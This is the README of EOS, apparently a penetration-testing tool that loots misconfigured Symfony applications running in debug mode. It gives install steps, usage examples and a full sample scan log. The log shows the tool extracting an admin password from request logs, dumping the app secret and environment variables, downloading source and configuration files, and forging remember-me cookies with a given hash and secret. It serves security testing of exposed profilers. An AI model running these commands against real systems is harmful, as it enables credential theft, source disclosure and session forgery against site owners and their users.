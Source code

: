 # Enemies Of Symfony (EOS)

`EOS` loots information from a Symfony target in debug mode:

| Section       | Description                                                                 |
| ------------- | --------------------------------------------------------------------------- |
| General       | Get general information about the target.                                   |
| Phpinfo       | Extract Symfony environment variables from the exposed phpinfo().           |
| Routes        | Get the list of registered routes.                                          |
| Request logs  | Look for credentials in POST request logs.                                  |
| Project files | Retrieve project files (configuration, database, etc.) based on a wordlist. |
| Sources       | Extract the application source code.                                        |
| Cookies       | Craft Remember Me cookies.                                                  |

More info at https://www.synacktiv.com/posts/pentest/looting-symfony-with-eos.html.

Note that this tool does not exploit any Symfony vulnerability. The profiler is
a useful component for developers and `EOS` simply takes advantage on
misconfigured Symfony applications. In fact, the profiler [documentation][1]
prominently warns developers:

> Never enable the profiler in production environments as it will lead to major security vulnerabilities in your project.

Thanks to all the Symfony team for their awesome work!

[1]: https://symfony.com/doc/current/profiler.html

## Installation

### Standard

```bash
$ git clone https://github.com/Synacktiv/eos
$ python3 -m pip install --user ./eos
```

### Docker

```bash
$ git clone https://github.com/Synacktiv/eos
$ cd eos
$ docker build . -f eos.Dockerfile -t eos
```

## Usage

```bash
usage: eos [-h] [-V] [-v] [--no-colors] {scan,sources,get,creds,cookies} ...

  ███████╗ ██████╗ ███████╗
  ██╔════╝██╔═══██╗██╔════╝
  █████╗  ██║   ██║███████╗
  ██╔══╝  ██║   ██║╚════██║
  ███████╗╚██████╔╝███████║  Enemies Of Symfony
  ╚══════╝ ╚═════╝ ╚══════╝  v1.1

positional arguments:
  {scan,sources,get,creds,cookies}
    scan                 perform a full scan
    sources              download application source code
    get                  download a file from the application
    creds                extract credentials from request logs
    cookies              craft remember me cookies with a great lifetime

optional arguments:
  -h, --help             show this help message and exit
  -V, --version          display version info
  -v, --verbose          increase verbosity
  --no-colors            disable colors in output

examples:
  eos scan http://localhost
  eos scan --headers 'Cookie: foo=bar; john=doe' 'User-Agent: EOS' -- http://localhost
  eos get http://localhost config/services.yaml
  eos cookies -u jane_admin -H '$2y$13$IMalnQpo7xfZD5FJGbEadOcqyj2mi/NQbQiI8v2wBXfjZ4nwshJlG' -s 67d829bf61dc5f87a73fd814e2c9f629
```

```bash
$ eos scan http://localhost --output results
[+] Starting scan on http://localhost
[+] 2020-04-23 14:21:26.463352 is a great day

[+] Info
[!]   Symfony 5.0.1
[!]   PHP 7.3.11-1~deb10u1
[!]   Environment: dev

[+] Request logs
[+] Found 9 POST requests
[!] Found the following credentials with a valid session:
[!]   jane_admin: kitten [ROLE_ADMIN]

[+] Phpinfo
[+] Available at http://localhost/_profiler/phpinfo
[+] Found 101 PHP variables
[!] Found the following Symfony variables:
[!]   APP_ENV: dev
[!]   APP_SECRET: 67d829bf61dc5f87a73fd814e2c9f629
[!]   DATABASE_URL: sqlite:///%kernel.project_dir%/data/database.sqlite
[!]   MAILER_URL: null://localhost

[+] Project files
[+] Found: composer.lock, run 'symfony security:check' or submit it at https://security.symfony.com
[!] Found the following files:
[!]   composer.lock
[!]   composer.json
[!]   config/bundles.php
[!]   config/bootstrap.php
[!]   config/packages/assets.yaml
[!]   config/packages/cache.yaml
[!]   config/packages/dev/debug.yaml
[!]   config/packages/dev/monolog.yaml
[!]   config/packages/dev/routing.yaml
[!]   config/packages/dev/swiftmailer.yaml
[!]   config/packages/dev/web_profiler.yaml
[!]   config/packages/doctrine_migrations.yaml
[!]   config/packages/doctrine.yaml
[!]   config/packages/framework.yaml
[!]   config/packages/html_sanitizer.yaml
[!]   config/packages/prod/doctrine.yaml
[!]   config/packages/prod/monolog.yaml
[!]   config/packages/prod/routing.yaml
[!]   config/packages/prod/webpack_encore.yaml
[!]   config/packages/routing.yaml
[!]   config/packages/security.yaml
[!]   config/packages/sensio_framework_extra.yaml
[!]   config/packages/swiftmailer.yaml
[!]   config/packages/test/dama_doctrine_test_bundle.yaml
[!]   config/packages/test/framework.yaml
[!]   config/packages/test/monolog.yaml
[!]   config/packages/test/routing.yaml
[!]   config/packages/test/security.yaml
[!]   config/packages/test/swiftmailer.yaml
[!]   config/packages/test/twig.yaml
[!]   config/packages/test/validator.yaml
[!]   config/packages/test/webpack_encore.yaml
[!]   config/packages/test/web_profiler.yaml
[!]   config/packages/translation.yaml
[!]   config/packages/twig.yaml
[!]   config/packages/validator.yaml
[!]   config/packages/webpack_encore.yaml
[!]   config/routes/annotations.yaml
[!]   config/routes/dev/framework.yaml
[!]   config/routes/dev/web_profiler.yaml
[!]   config/routes.yaml
[!]   config/services.yaml
[!]   data/database.sqlite
[!]   data/database_test.sqlite
[!]   package.json
[!]   public/index.php
[!]   public/robots.txt
[!]   README.md
[!]   src/Kernel.php
[!]   symfony.lock
[!]   var/cache/dev/url_generating_routes.php
[!]   var/cache/dev/url_matching_routes.php
[!]   var/log/dev.log

[+] Routes
[!] Found the following routes:
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/
[!]   /{_locale}/admin/post/new
[!]   /{_locale}/admin/post/{id}
[!]   /{_locale}/admin/post/{id}/edit
[!]   /{_locale}/admin/post/{id}/delete
[!]   /{_locale}/blog/
[!]   /{_locale}/blog/rss.xml
[!]   /{_locale}/blog/page/{page}
[!]   /{_locale}/blog/posts/{slug}
[!]   /{_locale}/blog/comment/{postSlug}/new
[!]   /{_locale}/blog/search
[!]   /{_locale}/login
[!]   /{_locale}/logout
[!]   /{_locale}/profile/edit
[!]   /{_locale}/profile/change-password
[!]   /{_locale}

[+] Project sources
[!] Found the following source files:
[!]   src/Command/AddUserCommand.php
[!]   src/Command/DeleteUserCommand.php
[!]   src/Command/ListUsersCommand.php
[!]   src/Controller/Admin/BlogController.php
[!]   src/Controller/BlogController.php
[!]   src/Controller/SecurityController.php
[!]   src/Controller/UserController.php
[!]   src/DataFixtures/AppFixtures.php
[!]   src/Entity/Comment.php
[!]   src/Entity/Post.php
[!]   src/Entity/Tag.php
[!]   src/Entity/User.php
[!]   src/EventSubscriber/CheckRequirementsSubscriber.php
[!]   src/EventSubscriber/CommentNotificationSubscriber.php
[!]   src/EventSubscriber/ControllerSubscriber.php
[!]   src/EventSubscriber/RedirectToPreferredLocaleSubscriber.php
[!]   src/Events/CommentCreatedEvent.php
[!]   src/Form/CommentType.php
[!]   src/Form/DataTransformer/TagArrayToStringTransformer.php
[!]   src/Form/PostType.php
[!]   src/Form/Type/ChangePasswordType.php
[!]   src/Form/Type/DateTimePickerType.php
[!]   src/Form/Type/TagsInputType.php
[!]   src/Form/UserType.php
[!]   src/Kernel.php
[!]   src/Pagination/Paginator.php
[!]   src/Repository/PostRepository.php
[!]   src/Repository/TagRepository.php
[!]   src/Repository/UserRepository.php
[!]   src/Security/PostVoter.php
[!]   src/Twig/AppExtension.php
[!]   src/Twig/SourceCodeExtension.php
[!]   src/Utils/Markdown.php
[!]   src/Utils/MomentFormatConverter.php
[!]   src/Utils/Slugger.php
[!]   src/Utils/Validator.php

[+] Saving files to results
[+] Saved 88 files

[+] Generated tokens: 5894a5 f68efa
[+] Scan completed in 0:00:13
```

### Example usage with Docker

```bash
$ docker run --rm -v /tmp/eos:/tmp/res eos eos scan http://localhost/ --output /tmp/res
```
